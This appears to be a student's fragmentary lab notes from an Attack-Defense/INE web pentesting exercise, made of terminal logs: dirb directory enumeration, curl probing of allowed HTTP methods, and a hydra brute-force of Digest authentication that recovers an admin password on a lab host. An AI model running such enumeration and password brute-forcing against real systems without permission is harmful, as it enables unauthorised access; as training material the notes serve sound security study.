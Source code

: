 HTTP MEthod Tampering

:1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 3169  bytes 2874615 (2.7 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 3169  bytes 2874615 (2.7 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0


┌──(root㉿INE)-[~]
└─# dirb http://192.190.82.3/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Sep 29 19:38:05 2025
URL_BASE: http://192.190.82.3/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.190.82.3/ ----
+ http://192.190.82.3/.git/HEAD (CODE:200|SIZE:23)                                                                                                                                        
+ http://192.190.82.3/cgi-bin/ (CODE:403|SIZE:210)                                                                                                                                        
==> DIRECTORY: http://192.190.82.3/css/                                                                                                                                                   
==> DIRECTORY: http://192.190.82.3/img/                                                                                                                                                   
+ http://192.190.82.3/index.php (CODE:200|SIZE:4408)                                                                                                                                      
==> DIRECTORY: http://192.190.82.3/js/                                                                                                                                                    
+ http://192.190.82.3/LICENSE (CODE:200|SIZE:10273)                                                                                                                                       
==> DIRECTORY: http://192.190.82.3/mail/                                                                                                                                                  
+ http://192.190.82.3/phpinfo.php (CODE:200|SIZE:74357)                                                                                                                                   
+ http://192.190.82.3/server-status (CODE:403|SIZE:215)                                                                                                                                   
==> DIRECTORY: http://192.190.82.3/uploads/                                                                                                                                               
==> DIRECTORY: http://192.190.82.3/vendor/                                                                                                                                                
                                                                                                                                                                                          
---- Entering directory: http://192.190.82.3/css/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                          
---- Entering directory: http://192.190.82.3/img/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                          
---- Entering directory: http://192.190.82.3/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                          
---- Entering directory: http://192.190.82.3/mail/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                          
---- Entering directory: http://192.190.82.3/uploads/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                          
---- Entering directory: http://192.190.82.3/vendor/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Mon Sep 29 19:38:07 2025
DOWNLOADED: 4612 - FOUND: 6

┌──(root㉿INE)-[~]
└─# curl http://192.190.82.3                                                                                                                                                               

<!DOCTYPE html>
<html lang="en">

<head>

  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
  <meta name="description" content="">
  <meta name="author" content="">

  <title>Attack Defense Demo Blog</title>

  <!-- Bootstrap core CSS -->
  <link href="vendor/bootstrap/css/bootstrap.min.css" rel="stylesheet">

  <!-- Custom fonts for this template -->
  <link href="vendor/fontawesome-free/css/all.min.css" rel="stylesheet" type="text/css">
  <!-- <link href='css/lora.css' rel='stylesheet' type='text/css'> -->
  <!-- <link href='css/open-sans.css' rel='stylesheet' type='text/css'> -->

  <!-- Custom styles for this template -->
  <link href="css/clean-blog.min.css" rel="stylesheet">

</head>

<body>

  <!-- Navigation -->
  <nav class="navbar navbar-expand-lg navbar-light fixed-top" id="mainNav">
    <div class="container">
      <a class="navbar-brand" href="index.php">Demo Lab</a>
      <button class="navbar-toggler navbar-toggler-right" type="button" data-toggle="collapse" data-target="#navbarResponsive" aria-controls="navbarResponsive" aria-expanded="false" aria-label="Toggle navigation">
        Menu
        <i class="fas fa-bars"></i>
      </button>
      <div class="collapse navbar-collapse" id="navbarResponsive">
        <ul class="navbar-nav ml-auto">
          <li class="nav-item">
            <a class="nav-link" href="login.php"> Login </a>          </li>
        </ul>
      </div>
    </div>
  </nav>

  <!-- Page Header -->
  <header class="masthead" style="background-image: url('img/home-bg.jpg')">
    <div class="overlay"></div>
    <div class="container">
      <div class="row">
        <div class="col-lg-8 col-md-10 mx-auto">
          <div class="site-heading">
            
          </div>  
        </div>
      </div>
    </div>
  </header>

  <!-- Main Content -->
  <div class="container">
    <div class="row">
      <div class="col-lg-8 col-md-10 mx-auto">
        <div class="post-preview">
          <a href="post.php">
            <h2 class="post-title">
              CTF.LIVE 
            </h2>
            <h3 class="post-subtitle">
              Free for all public Capture the Flag Competition
            </h3>
          </a>
          <p class="post-meta">Posted by
            <a href="#">Attack Defense</a>
            on March 29, 2020</p>
        </div>
        <hr>
        <div class="post-preview">
          <a href="post.php">
            <h2 class="post-title">
              Attack Defense Lab Overview. 
            </h2>
            <h3 class="post-subtitle">
              Cybersecurity Education Platform at affordable price.
            </h3>
          </a>
          <p class="post-meta">Posted by
            <a href="#">Attack Defense</a>
            on March 16, 2019</p>
        </div>
       
      </div>
    </div>
  </div>

  <hr>

  <!-- Footer -->
  <footer>
    <div class="container">
      <div class="row">
        <div class="col-lg-8 col-md-10 mx-auto">
          <ul class="list-inline text-center">
            <li class="list-inline-item">
              <a href="#">
                <span class="fa-stack fa-lg">
                  <i class="fas fa-circle fa-stack-2x"></i>
                  <i class="fab fa-twitter fa-stack-1x fa-inverse"></i>
                </span>
              </a>
            </li>
            <li class="list-inline-item">
              <a href="#">
                <span class="fa-stack fa-lg">
                  <i class="fas fa-circle fa-stack-2x"></i>
                  <i class="fab fa-facebook-f fa-stack-1x fa-inverse"></i>
                </span>
              </a>
            </li>
            <li class="list-inline-item">
              <a href="#">
                <span class="fa-stack fa-lg">
                  <i class="fas fa-circle fa-stack-2x"></i>
                  <i class="fab fa-github fa-stack-1x fa-inverse"></i>
                </span>
              </a>
            </li>
          </ul>
          <p class="copyright text-muted">Copyright &copy; Your Website 2019</p>
        </div>
      </div>
    </div>
  </footer>

  <!-- Bootstrap core JavaScript -->
  <script src="vendor/jquery/jquery.min.js"></script>
  <script src="vendor/bootstrap/js/bootstrap.bundle.min.js"></script>

  <!-- Custom scripts for this template -->
  <script src="js/clean-blog.min.js"></script>

</body>

</html>


┌──(root㉿INE)-[~]
└─# curl -v http://192.190.82.3                                                                                                                                                            
*   Trying 192.190.82.3:80...
* Connected to 192.190.82.3 (192.190.82.3) port 80
> GET / HTTP/1.1
> Host: 192.190.82.3
> User-Agent: curl/8.8.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Date: Mon, 29 Sep 2025 14:11:34 GMT
< Server: Apache
< X-Powered-By: PHP/5.5.9-1ubuntu4.25
< Set-Cookie: PHPSESSID=pe29nbl8qiv2kg2keg0g9cbec2; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
< Vary: Accept-Encoding
< Content-Length: 4408
< Content-Type: text/html
< 

<!DOCTYPE html>
<html lang="en">

<head>

  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
  <meta name="description" content="">
  <meta name="author" content="">

  <title>Attack Defense Demo Blog</title>

  <!-- Bootstrap core CSS -->
  <link href="vendor/bootstrap/css/bootstrap.min.css" rel="stylesheet">

  <!-- Custom fonts for this template -->
  <link href="vendor/fontawesome-free/css/all.min.css" rel="stylesheet" type="text/css">
  <!-- <link href='css/lora.css' rel='stylesheet' type='text/css'> -->
  <!-- <link href='css/open-sans.css' rel='stylesheet' type='text/css'> -->

  <!-- Custom styles for this template -->
  <link href="css/clean-blog.min.css" rel="stylesheet">

</head>

<body>

  <!-- Navigation -->
  <nav class="navbar navbar-expand-lg navbar-light fixed-top" id="mainNav">
    <div class="container">
      <a class="navbar-brand" href="index.php">Demo Lab</a>
      <button class="navbar-toggler navbar-toggler-right" type="button" data-toggle="collapse" data-target="#navbarResponsive" aria-controls="navbarResponsive" aria-expanded="false" aria-label="Toggle navigation">
        Menu
        <i class="fas fa-bars"></i>
      </button>
      <div class="collapse navbar-collapse" id="navbarResponsive">
        <ul class="navbar-nav ml-auto">
          <li class="nav-item">
            <a class="nav-link" href="login.php"> Login </a>          </li>
        </ul>
      </div>
    </div>
  </nav>

  <!-- Page Header -->
  <header class="masthead" style="background-image: url('img/home-bg.jpg')">
    <div class="overlay"></div>
    <div class="container">
      <div class="row">
        <div class="col-lg-8 col-md-10 mx-auto">
          <div class="site-heading">
            
          </div>  
        </div>
      </div>
    </div>
  </header>

  <!-- Main Content -->
  <div class="container">
    <div class="row">
      <div class="col-lg-8 col-md-10 mx-auto">
        <div class="post-preview">
          <a href="post.php">
            <h2 class="post-title">
              CTF.LIVE 
            </h2>
            <h3 class="post-subtitle">
              Free for all public Capture the Flag Competition
            </h3>
          </a>
          <p class="post-meta">Posted by
            <a href="#">Attack Defense</a>
            on March 29, 2020</p>
        </div>
        <hr>
        <div class="post-preview">
          <a href="post.php">
            <h2 class="post-title">
              Attack Defense Lab Overview. 
            </h2>
            <h3 class="post-subtitle">
              Cybersecurity Education Platform at affordable price.
            </h3>
          </a>
          <p class="post-meta">Posted by
            <a href="#">Attack Defense</a>
            on March 16, 2019</p>
        </div>
       
      </div>
    </div>
  </div>

  <hr>

  <!-- Footer -->
  <footer>
    <div class="container">
      <div class="row">
        <div class="col-lg-8 col-md-10 mx-auto">
          <ul class="list-inline text-center">
            <li class="list-inline-item">
              <a href="#">
                <span class="fa-stack fa-lg">
                  <i class="fas fa-circle fa-stack-2x"></i>
                  <i class="fab fa-twitter fa-stack-1x fa-inverse"></i>
                </span>
              </a>
            </li>
            <li class="list-inline-item">
              <a href="#">
                <span class="fa-stack fa-lg">
                  <i class="fas fa-circle fa-stack-2x"></i>
                  <i class="fab fa-facebook-f fa-stack-1x fa-inverse"></i>
                </span>
              </a>
            </li>
            <li class="list-inline-item">
              <a href="#">
                <span class="fa-stack fa-lg">
                  <i class="fas fa-circle fa-stack-2x"></i>
                  <i class="fab fa-github fa-stack-1x fa-inverse"></i>
                </span>
              </a>
            </li>
          </ul>
          <p class="copyright text-muted">Copyright &copy; Your Website 2019</p>
        </div>
      </div>
    </div>
  </footer>

  <!-- Bootstrap core JavaScript -->
  <script src="vendor/jquery/jquery.min.js"></script>
  <script src="vendor/bootstrap/js/bootstrap.bundle.min.js"></script>

  <!-- Custom scripts for this template -->
  <script src="js/clean-blog.min.js"></script>

</body>

</html>

* Connection #0 to host 192.190.82.3 left intact

┌──(root㉿INE)-[~]
└─# curl -v -X POST http://192.190.82.3                                                                                                                                                    
*   Trying 192.190.82.3:80...
* Connected to 192.190.82.3 (192.190.82.3) port 80
> POST / HTTP/1.1
> Host: 192.190.82.3
> User-Agent: curl/8.8.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 405 Method Not Allowed
< Date: Mon, 29 Sep 2025 14:13:47 GMT
< Server: Apache
< X-Powered-By: PHP/5.5.9-1ubuntu4.25
< Set-Cookie: PHPSESSID=u83v9b6p3aeqooncosqudgklm5; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
< Content-Length: 222
< Content-Type: text/html
< 
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>405 Method Not Allowed</title>
</head><body>
<h1>Method Not Allowed</h1>
<p>The requested method POST is not allowed for the URL /.</p>
</body></html>
* Connection #0 to host 192.190.82.3 left intact

┌──(root㉿INE)-[~]
└─# curl -v -X OPTIONS http://192.190.82.3                                                                                                                                           
*   Trying 192.190.82.3:80...
* Connected to 192.190.82.3 (192.190.82.3) port 80
> OPTIONS / HTTP/1.1
> Host: 192.190.82.3
> User-Agent: curl/8.8.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Date: Mon, 29 Sep 2025 14:15:21 GMT
< Server: Apache
< X-Powered-By: PHP/5.5.9-1ubuntu4.25
< Set-Cookie: PHPSESSID=aej07ldi0v3j2lpg6ulgqgn922; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
< Allow: GET,HEAD,OPTIONS
< Content-Length: 0
< Content-Type: text/html
< 
* Connection #0 to host 192.190.82.3 left intact

┌──(root㉿INE)-[~]
└─# curl -v -X HEAD http://192.190.82.3                                                                                                                                         
Warning: Setting custom HTTP method to HEAD with -X/--request may not work the 
Warning: way you want. Consider using -I/--head instead.
*   Trying 192.190.82.3:80...
* Connected to 192.190.82.3 (192.190.82.3) port 80
> HEAD / HTTP/1.1
> Host: 192.190.82.3
> User-Agent: curl/8.8.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Date: Mon, 29 Sep 2025 14:18:40 GMT
< Server: Apache
< X-Powered-By: PHP/5.5.9-1ubuntu4.25
< Set-Cookie: PHPSESSID=nbiq3iplombsivjrp8q9mhhvk4; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
< Content-Type: text/html
< 
* no chunk, no close, no size. Assume close to signal end

* Closing connection


Attaching  Basic HTTP Authentication


Attacking  Digest HTTP Authentication


root@attackdefense:~# hydra -l admin -P /root/Desktop/wordlists/100-common-passwords.txt 192.195.70.3 http-get /digest/
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-30 14:25:49
[DATA] max 16 tasks per 1 server, overall 16 tasks, 100 login tries (l:1/p:100), ~7 tries per task
[DATA] attacking http-get://192.195.70.3:80/digest/
[80][http-get] host: 192.195.70.3   login: admin   password: adminpasswd
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-30 14:25:50
